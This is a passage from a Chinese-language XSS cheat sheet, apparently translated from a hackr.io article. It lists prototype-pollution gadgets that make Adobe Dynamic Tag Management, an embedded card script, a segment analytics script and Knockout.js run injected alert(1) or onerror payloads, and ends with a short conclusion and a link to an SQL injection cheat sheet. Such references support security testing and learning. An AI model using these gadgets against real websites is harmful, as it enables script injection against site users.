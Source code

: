 #### **Adobe 动态标签管理**

```
<script>

Object.prototype.src='data:,alert(1)//'

</script>
```

#### **嵌入式卡**

```
<script>

Object.prototype.onload = 'alert(1)'

</script>
```

细分分析. js

```
<script>

Object.prototype.script = [1,'<img/src/onerror=alert(1)>','<img/src/onerror=alert(2)>']

</script>
```

#### **Knockout.js**

```
<strong data-bind="text:'hello'"></strong>

<script>

Object.prototype[4]="a':1,[alert(1)]:1,'b";Object.prototype[5]=',';

</script><script>

ko.applyBindings({})

</script>
```

## **结论**

在这个 XSS 备忘单中，我们讨论了与 XSS(跨站点脚本)相关的各种命令，您可以在需要时立即查阅。XSS 允许恶意脚本进入网站，以执行一些操作。每当您需要 XSS 命令时，这个跨站点脚本备忘单可以作为您的快速参考。

有兴趣了解更多关于注射和网络攻击的知识吗？[查看我们的 SQL 注入备忘单](https://hackr.io/blog/sql-injection-cheat-sheet)。

## **常见问题解答**
